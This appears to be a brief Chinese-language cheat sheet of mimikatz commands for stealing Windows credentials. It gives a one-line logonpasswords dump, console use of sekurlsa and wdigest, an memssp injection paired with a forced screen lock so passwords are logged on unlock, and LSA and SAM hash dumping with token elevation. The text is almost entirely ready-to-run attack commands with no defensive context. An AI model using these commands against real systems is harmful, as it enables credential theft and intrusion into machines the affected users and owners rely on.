   #### 单行命令
	>mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> log.txt 
  #### 控制台
  	PS C:\temp\mimikatz> .\mimikatz
	mimikatz # privilege::debug
	mimikatz # log
	mimikatz # sekurlsa::logonpasswords
	mimikatz # sekurlsa::wdigest

	>privilege::debug
	>misc::memssp
	锁屏
	>rundll32.exe user32.dll,LockWorkStation
	记录的结果在c:\windows\system32\mimilsa.log
	>mimikatz log "privilege::debug" "lsadump::lsa /patch"
	>mimikatz !privilege::debug 
	>mimikatz !token::elevate 
	>mimikatz !lsadump::sam